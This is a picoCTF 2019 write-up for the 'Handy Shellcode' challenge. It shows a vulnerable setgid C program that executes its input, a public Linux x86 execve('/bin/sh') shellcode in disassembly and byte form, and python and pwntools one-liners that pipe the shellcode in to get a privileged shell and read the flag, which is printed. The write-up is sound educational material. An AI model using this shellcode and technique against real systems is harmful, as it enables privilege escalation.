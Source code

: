 # PicoCTF19 Handy Shellcode

## Challenge

This [program](https://2019shell1.picoctf.com/static/55d1e7f761111a3cf6eec259e5dc44f8/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode on the shell server. [Source](https://2019shell1.picoctf.com/static/55d1e7f761111a3cf6eec259e5dc44f8/vuln.c).

## Hints

You might be able to find some good shellcode online.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ls -al
total 732
drwxr-xr-x   2 root       root                4096 Sep 28 21:53 .
drwxr-x--x 684 root       root               69632 Oct 10 18:02 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28 21:53 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28 21:53 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28 21:53 vuln.c
```
As my user is currently `samson` and I am not in that handy-shellcode_5 group, I cannot `cat` the file `flag.txt`. Let's take a look at the source code.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];
  puts("Enter your shellcode:");
  vuln(buf);
  puts("Thanks! Executing now...");
  ((void (*)())buf)();
  puts("Finishing Executing Shellcode. Exiting now...");
  return 0;
}
```

It seems like it's almost prompting us to enter shellcode and execute it. More precisely, it takes in our input and echos it out with the `gets()` and `puts()` function calls.

Then we have this line here:
```
  ((void (*)())buf)();
```
This takes `buf`, casts it to the void function pointer which returns nothing and then runs that function. So it'll execute whatever is at the address fo `buf`.

Let's test our assumptions....

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ./vuln
Enter your shellcode:
A    
A
Thanks! Executing now...
Segmentation fault (core dumped)
```

So what is shellcode? Basically it's raw assembly code to be executed.

So let's go to a handy website full of these shellcodes: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

But before we decide which shellcode to use, we need to know our end goal. We want to drop into a shell that will let us `cat` or `print` the file `flag.txt`.

Let's start with dropping into a shell, is there a shellcode for `/bin/sh`.... Yes.

---

Let's use this one: [http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)

```
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}

```

But let's get that shellcode onto one line:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Let's try it?

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ./vuln 
Enter your shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
Thanks! Executing now...
Segmentation fault (core dumped)
```

Wait that's not how we enter shellcode. We need the shell to interpret the `\x` as bytes not strings.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'" | ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                 ̀1�@̀
Thanks! Executing now...
```

Awesome it worked but it won't hold a shell for us, so let's use `cat`. To recap, if you `cat file.txt`, it'll just print out the contents of the file. However, if you just type `cat`, it will echo back whatever input you give it until you quit the program. Let's try it out.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                 ̀1�@̀
Thanks! Executing now...
id
uid=30646(samson) gid=8874(handy-shellcode_5) groups=8874(handy-shellcode_5),1002(competitors),30647(samson)
ls -al      
total 732
drwxr-xr-x   2 root       root                4096 Sep 28 21:53 .
drwxr-x--x 684 root       root               69632 Oct 10 18:02 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28 21:53 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28 21:53 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28 21:53 vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```

## Flag

`picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`

## Alternative solution

The PicoCTF Shell comes with Python and Pwntools preinstalled so we could have leveraged this as well.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ (python -c "import pwn; print(pwn.asm(pwn.shellcraft.linux.sh()))"; cat) | ./vuln
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```